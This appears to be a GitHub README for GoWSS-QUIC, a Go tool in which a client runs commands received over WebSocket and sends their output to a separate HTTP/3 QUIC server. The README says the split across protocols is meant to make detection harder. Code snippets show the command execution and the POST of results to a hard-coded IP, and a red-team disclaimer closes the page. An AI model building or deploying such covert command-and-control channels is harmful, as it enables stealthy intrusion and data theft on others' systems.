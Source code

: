 # WebSocket & QUIC Client-Server Project

## Overview

This project demonstrates a Go-based client-server architecture where communication happens through WebSocket, and certain events trigger HTTP/3 (QUIC) requests. The server uses WebSocket to exchange data, while HTTP/3 is used to send requests over the QUIC protocol. 

The server receives client commands over WebSocket, executes those commands, and sends the results to another endpoint via HTTP/3.

In traffic side confrontation, commands and results are not in the same package, which increases the difficulty of detection

## Features

- **WebSocket Communication**: The client connects to a WebSocket server and listens for messages. It can also send data over the WebSocket protocol.
- **Command Execution**: When the server sends a command via WebSocket, the client executes the command and retrieves the output.
- **QUIC Requests via HTTP/3**: The client's executed command results are sent to an HTTP/3 server using the QUIC protocol.
- **TLS Support**: Both WebSocket and HTTP/3 connections are secured using TLS (with an option to skip certificate verification in development).

## Components

### 1. WebSocket Server
The server listens for WebSocket connections and sends commands to connected clients. Clients receive these commands and execute them locally.

### 2. Client
The client:
- Connects to the WebSocket server over a secure connection (`wss://`).
- Listens for server-sent commands and executes them.
- Sends the execution output to an HTTP/3 server using a QUIC request.

### 3. QUIC (HTTP/3) Server
The server uses the QUIC protocol to handle incoming POST requests, which contain the result of the executed commands.

## Prerequisites

- Go 1.16+ installed.
- A valid TLS certificate and key for secure WebSocket and HTTP/3 connections.
- Libraries required:
  - [`gorilla/websocket`](https://github.com/gorilla/websocket)
  - [`quic-go/http3`](https://github.com/quic-go/quic-go)

## Setup

1. **Clone the repository**:
   ```bash
   git clone https://github.com/zhangyang9123/GoWSS-QUIC.git
   cd GoWSS-QUIC
   ```

2. **Install dependencies**:
   Ensure the required Go modules are installed:
   ```bash
   go mod tidy
   ```

3. **Generate or configure TLS certificates**:
   Ensure you have the necessary TLS certificates. You can generate them using tools like Let's Encrypt or OpenSSL.
   ```bash
   openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 365 -nodes
   ```

5. **Run the WebSocket AND QUIC server**:
   Start the QUIC (HTTP/3) server which listens on port `4433`:
   ```bash
   go run server.go
   ```

6. **Run the WebSocket client**:
   Run the client, which connects to the WebSocket server at `wss://127.0.0.1:8888/ws` And listen to trigger QUIC server to send requests:
   ```bash
   go run client.go
   ```

## Code Overview

### `server.go`

- **WebSocket Server**:
  The server listens for WebSocket connections on port `:8888`. When a client connects, the server can send commands that the client will execute.

- **QUIC Server**:
  The server listens for incoming HTTP/3 requests on port `:4433` secured by TLS. The client sends POST requests containing the results of command executions.

```go
http.HandleFunc("/ws", handleWebSocket)
log.Println("WebSocket server started on :8888")
log.Fatal(http.ListenAndServeTLS(":8888", certFile, keyFile, nil))
```

### `client.go`

- **WebSocket Client**:
  The client connects to the WebSocket server using a TLS-secured WebSocket connection (`wss://`). It listens for commands from the server, executes them locally, and sends the output to the QUIC server.

- **QUIC Request**:
  After executing the command received from the WebSocket server, the client sends the result via a POST request to the QUIC server using the HTTP/3 protocol.

```go
cmd := exec.Command(program, args...)
output, err := cmd.CombinedOutput()
// Send result to QUIC server
req, err := http.NewRequestWithContext(context.Background(), http.MethodPost, "https://192.168.3.104:4433", bytes.NewReader(output))
```

## How It Works

1. **Client-Server Communication**:
   - The client connects to the WebSocket server (`wss://127.0.0.1:8888/ws`).
   - The server sends a command to the client, which the client executes.
   - The result of the executed command is then sent over HTTP/3 to the server at `https://127.0.0.1:4433`.

2. **Randomized Behavior**:
   The client has a built-in feature where it randomly chooses whether to send the command output via QUIC. This can be modified for deterministic behavior.

## Example

1. **Start the server**:
   Run the WebSocket server (`server.go`) which also handles QUIC requests.

2. **Run the client**:
   Start the client (`client.go`) and connect it to the WebSocket server.

3. **Send a command from the server**:
   You can configure the server to send a command like:
   ```bash
   whoami
   ```

4. **Observe the results**:
   The client will execute the command and send the results to the HTTP/3 server via QUIC.
---

# Disclaimer
This tool is only intended for legally authorized enterprise security construction activities. If you need to test the usability of this tool, please set up your own target drone environment.
If you engage in any illegal behavior while using this tool, you shall bear the corresponding consequences on your own, and we will not assume any legal or joint liability.
Before installing and using this tool, please carefully read and fully understand the contents of each clause. Restrictions, disclaimers, or other clauses that involve your significant rights and interests may be highlighted in bold, underlined, or other forms. Unless you have fully read, understood, and accepted all the terms of this agreement, please do not install and use this tool. Your use or any other express or implied acceptance of this agreement shall be deemed as your reading and agreement to be bound by this agreement.
